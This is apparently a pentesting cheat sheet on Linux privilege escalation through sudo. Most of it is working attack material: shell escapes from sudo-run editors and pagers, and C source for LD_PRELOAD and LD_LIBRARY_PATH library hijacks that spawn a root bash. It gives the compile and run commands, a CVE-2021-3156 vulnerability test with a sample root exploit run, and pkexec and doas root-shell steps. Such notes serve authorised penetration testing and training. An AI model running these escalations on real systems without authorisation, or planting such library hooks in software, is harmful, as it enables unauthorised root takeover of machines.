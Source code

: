 # Sudo

* [Enumerate](#enumerate)
* [Limited Sudo](#limited-sudo)
* [LD_PRELOAD](#ld_preload)
* [LD_LIBRARY_PATH](#ld_library_path)
* [Sudo Exploits](#sudo-exploits)
* [pkexec](#pkexec)

## Enumerate

If you can read `/etc/sudoers`, then do so to figure out the sudo permissions of users on the machine.

Otherwise check sudo privileges (often requires password):
```bash
sudo -l
```

Execute as another user:
```bash
# impersonate another user with sudo
sudo -u <user> <command>
sudo -u someuser whoami

# shell as another user
sudo -u someuser /bin/bash
```

Root shell (one of these):
```bash
# gain root through sudo
sudo su -

# keep current environment when switching to root
sudo su

# alternative ways to elevate to root
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Limited Sudo

If your sudo privileges are restricted to some specific programs, then look for possible escape methods:

**GTFOBins** - https://gtfobins.github.io/

### Examples

In text editors like `less` or `more` you can often open a shell via the interactive command interface in the editor:
```bash
less <somefile>
!/bin/sh
# spawns root sh shell
```

Vi and Vim:
```bash
sudo vi
:set shell=/bin/sh
:shell
# spawns root sh shell
```

Emacs:
```bash
sudo emacs -Q -nw --eval '(term "/bin/sh")'
# spawns root sh shell
```

A lot of edtiors that normally aren't interactive will drop into an interactive mode if the window size is too small, so try lowering the windows size if you cannot access commands.

### apt-get

This is an example of using the above indirectly, which can be quite common in different applications. Look for ways to make a sudo'd application run a pager like less.

The default pager should be `less' for this to work. Also you need to find an updated apt package that has a changelog.

```bash
sudo apt-get changelog apt
...
!/bin/sh
# spawns root sh shell
```

## LD_PRELOAD

If you do sudo -l and see the following:
```bash
env_keep+=LD_PRELOAD
```

Then you can easily PrivEsc to root.

Create a shared object (.so) binary:

File `pe_preload.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile:
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/pe_preload.so pe_preload.c
```

Now if you run any program as sudo, you can pop a root shell:

```bash
sudo LD_PRELOAD=/tmp/pe_preload.so ping

# root shell pops
```


## LD_LIBRARY_PATH

Unlike LD_PRELOAD, this is not an unconditional winning condidtion. This will work if the program you can execute uses one or more shared libraries.

If you do sudo -l and see the following:
```bash
env_keep+=LD_LIBRARY_PATH
```

Then you might be able to gain root by replacing a shared object library (.so) used by one of the programs we can run as sudo.

Use the `ldd` command to enumerate the shared object libraries used by a binary.

```bash
ldd /usr/sbin/apache2

# output
    ...
    librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007fa9e2b33000)
    libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fa9e2af8000)
    libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa9e2af3000)
    ...
```

If there are libs, then this should work. Pick one of them and create a shared library binary with the same name (here libcrypt.so.1).

pe_lib.c:

```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile like the previous example:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pe_lib.c
cd /tmp/
```

Then run the relevant command with the LD_LIBRARY_PATH parameter:

```bash
sudo LD_LIBRARY_PATH=. apache2

# rootshell spawns here
```

## Sudo Exploits

All of the above are basically ways to use sudo as intended by the creators (it's not a bug, it's a feature). But there were also a variety of vulnerabilities in sudo itself over the years.

Enumerate the sudo version with:

```bash
sudo -V
```

Search for exploits:
```bash
searchsploit sudo
searchsploit sudo <version_num_here>
```

There is also a dedicated toolset for identifying sudo vulnerabilities:

* "sudo killer" by TH3xACE - https://github.com/TH3xACE/SUDO_KILLER



### CVE-2021-3156 - Baron Samedit

Test for sudo vulnerability 

```bash
sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudoedit -s '\' `python3 -c 'print("A" * 65536)'`
```

If the result is a memory corruption error, then the machine is vulnerable

```bash
malloc(): corrupted top size
Aborted
```

* python exploits for this vuln: https://github.com/worawit/CVE-2021-3156

```bash
shaun@doctor:/tmp/blub/CVE-2021-3156$ python3 exploit_nss.py
python3 exploit_nss.py
# whoami
whoami
root

```


## pkexec

Pkexec is similar to sudo, in that it lets you execute commands as another user (usually root) if you are part of a whitelisted group (usually 'admin' or similar).

If there is the pkexec SUID binary on the machine (check the SUID notes for search commands), then check the config:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

If one of your groups is listed there then you can do:

```bash
pkexec "/bin/sh" #You will be prompted for your user password

# root shell pops here
```

## doas

If you can't run su or sudo and you cannot elevate despite having the root password, then sometimes you can find this (especially on BSD):

```bash
doas -u root /bin/sh 
# type root password here
```




